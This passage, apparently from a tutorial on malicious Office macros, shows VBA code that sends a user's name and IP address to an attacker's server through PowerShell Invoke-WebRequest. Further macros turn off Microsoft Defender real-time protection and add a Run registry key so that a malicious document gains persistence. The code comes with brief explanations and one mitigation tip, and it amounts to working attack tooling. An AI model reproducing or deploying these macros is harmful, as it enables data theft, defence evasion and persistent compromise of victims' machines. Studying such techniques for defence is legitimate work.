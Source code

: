 ```vbnet
    obj.Run "powershell.exe -Command ""Invoke-WebRequest -Uri '" & url & "'""", 0, False
End Sub
```

- **Environ("USERNAME")**: Fetches the current user’s name.
- **Get-NetIPAddress**: Retrieves the system's IP address.
- **Invoke-WebRequest**: Sends the collected data to the attacker’s server.

---

### **3. Disabling Security Tools Using VBA Macros**

This macro attempts to **disable Microsoft Defender** using PowerShell commands.

```vbnet
Sub DisableDefender()
    Dim obj As Object
    Set obj = CreateObject("Wscript.Shell")

    ' Disable Windows Defender real-time protection.
    obj.Run "powershell.exe -Command ""Set-MpPreference -DisableRealtimeMonitoring $true""", 0, True
End Sub
```

- **Set-MpPreference**: A PowerShell cmdlet to modify Defender settings.
- This attack assumes the attacker has sufficient permissions to disable Defender.

> Mitigation: Always enforce Group Policies that block changes to Defender settings and restrict PowerShell usage.

---

### **4. Persistence Using VBA Macros (Registry Modification)**

The following macro adds itself to the **Windows startup** registry key to maintain persistence.

```vbnet
Sub PersistInRegistry()
    Dim obj As Object
    Set obj = CreateObject("Wscript.Shell")

    ' Add the macro to the Windows startup registry.
    obj.Run "reg add HKCU\\Software\\Microsoft\\Windows\\CurrentVersion\\Run /v OfficeMacro /d 'C:\\Users\\Public\\malicious.docm'", 0, True
End Sub
```

- **HKCU\Software\Microsoft\Windows\CurrentVersion\Run**: Registry key for user startup programs.
- The malicious document (`malicious.docm`) will execute every time the user logs in.

> Note: This attack requires write access to the registry.

---
